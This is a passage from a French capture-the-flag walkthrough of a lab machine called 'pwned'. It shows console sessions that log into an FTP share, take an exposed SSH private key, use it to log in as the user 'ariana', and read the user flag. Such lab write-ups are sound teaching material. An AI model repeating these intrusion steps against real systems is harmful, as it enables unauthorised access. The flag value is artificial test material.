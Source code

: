 Cette fois ça y est, on peut se connecter au FTP et récupérer deux fichiers :

```console
$ ftp 192.168.56.219
Connected to 192.168.56.219.
220 (vsFTPd 3.0.3)
Name (192.168.56.219:devloop): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59132|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||26995|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
```

Le premier mentionne un nom d'utilisateur :

> Wow you are here
> 
> ariana won't happy about this note
> 
> sorry ariana :(

L'autre est la clé SSH qui nous ouvre la porte du SSH :

```console
$ ssh -i id_rsa ariana@192.168.56.219
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
ariana@pwned:~$ ls -a
.  ..  ariana-personal.diary  .bash_history  .bash_logout  .bashrc  .local  .profile  .ssh  user1.txt
ariana@pwned:~$ cat user1.txt 
congratulations you Pwned ariana 

Here is your user flag ↓↓↓↓↓↓↓

fb8d98be1265dd88bac522e1b2182140

Try harder.need become root
```
